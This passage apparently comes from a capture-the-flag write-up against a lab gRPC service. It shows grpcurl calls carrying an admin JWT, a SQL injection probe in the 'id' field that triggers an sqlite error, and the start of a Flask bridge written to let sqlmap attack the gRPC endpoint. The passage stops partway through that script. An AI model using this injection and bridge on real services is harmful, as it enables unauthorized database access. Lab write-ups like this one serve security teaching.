 So we have to provide the token back : 

```shell
./grpcurl -vv -plaintext -d '{"id":"299"}' -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4xIiwiZXhwIjoxNjg2MDg4NzkwfQ.zB9sHzF8n0xLU-kuAvrrBx6IpH9gclGROk6KvrEF-U0' 10.10.11.214:50051 SimpleApp/getInfo
```

output:

```text
Resolved method descriptor:
rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );

Request metadata to send:
token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4xIiwiZXhwIjoxNjg2MDg4NzkwfQ.zB9sHzF8n0xLU-kuAvrrBx6IpH9gclGROk6KvrEF-U0

Response headers received:
content-type: application/grpc
grpc-accept-encoding: identity, deflate, gzip

Estimated response size: 19 bytes

Response contents:
{
  "message": "Will update soon."
}

Response trailers received:
(empty)
Sent 1 request and received 1 response
```

This getInfo method with `id` parameter seems to be vulnerable to a SQL Injection. When using `'{"id":"802; select *"}'`, we have an answer :

```text
ERROR:
  Code: Unknown
  Message: Unexpected <class 'sqlite3.Warning'>: You can only execute one statement at a time.
```

Using SQLmap would require to have an HTTP service, but gRPC works on HTTP/2 protocol. We need to adapt these protocol with a bridge.

We write a bridge that provide a HTTP interface over the calls tp grpcurl :

```python
#!/usr/bin/python3

# pip install flask
# flask --app grpc-bridge run


from flask import Flask
from flask import request
import json, subprocess

targetHost="10.10.11.214:50051"
serviceName="SimpleApp"

userToken = None

def callRpc( method, dataJson ):
    global userToken
    # ./grpcurl -plaintext -d '{"id":"299"}' -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4xIiwiZXhwIjoxNjg2MDg4NzkwfQ.zB9sHzF8n0xLU-kuAvrrBx6IpH9gclGROk6KvrEF-U0' 10.10.11.214:50051 SimpleApp/getInfo
```